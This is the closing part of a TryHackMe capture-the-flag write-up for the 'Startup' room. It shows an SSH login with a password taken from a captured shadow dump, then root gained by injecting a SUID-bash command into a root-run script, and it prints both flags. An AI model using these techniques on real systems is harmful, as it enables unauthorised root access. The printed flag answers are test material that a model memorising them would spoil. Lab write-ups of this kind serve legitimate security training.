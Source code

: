 
Following the contents of the stream, we quickly see a dump for the shadow file as well as the password for one of the users: `c4ntg3t3n0ughsp1c3`
Let's use that to our advantage and make do with some privesc.

## Privilege Escalation
Trying to `ssh` into the machine using the credentials: `lennie: c4ntg3t3n0ughsp1c3` we can get access to the user flag:
```shell-session
$ ssh  lennie@TARGET_IP 
lennie@TARGET_IP's password: c4ntg3t3n0ughsp1c3

$ bash
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt 
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

```


> What are the contents of `user.txt`?
> 
> Answer: `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

Now onto getting root privileges... We can abuse the logic for the `planner.sh` file present in lennie's home directory:
```shell-session
lennie@startup:~/scripts$ echo "cp /bin/bash /tmp && chmod +s /tmp/bash" > /etc/print.sh
lennie@startup:~$ ls -lah /tmp/bash
-rwsr-sr-x 1 root root 1014K Mar  1 07:23 /tmp/bash
lennie@startup:~$ /tmp/bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```

> What are the contents of `root.txt`?
> 
> Answer: `THM{f963aaa6a430f210222158ae15c3d76d}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Startup by elbee](https://tryhackme.com/room/startup)
